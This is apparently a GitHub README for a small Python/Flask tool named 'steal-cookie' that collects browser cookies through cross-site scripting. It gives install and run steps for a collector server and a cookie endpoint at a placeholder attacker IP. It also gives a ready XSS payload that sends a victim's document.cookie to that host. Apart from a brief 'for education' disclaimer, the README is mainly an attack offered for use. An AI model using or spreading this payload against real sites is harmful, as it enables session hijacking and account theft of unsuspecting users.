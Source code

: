 # steal-cookie
steal cookies from websites using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# Cookie Path :


````http://YOUR_IP/cookie?cookie=COOKIE```` 
 

# Payload :
  
  ````
  "><script>document.location="http://YOUR_IP/cookie?cookie=" + document.cookie </script>
  ````
  
# How use it :
<h4><a href='https://www.youtube.com/watch?v=gJ6D60jeai8&t=3s' target='_blank'>Help</a></h4>
# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :

- Facebook  : <a href="https://www.facebook.com/profile.php?id=100015121337012" >Khaled Nassar</a>
- Hackerone : <a href="http://hackerone.com/knassar702">Khaled Nassar</a>

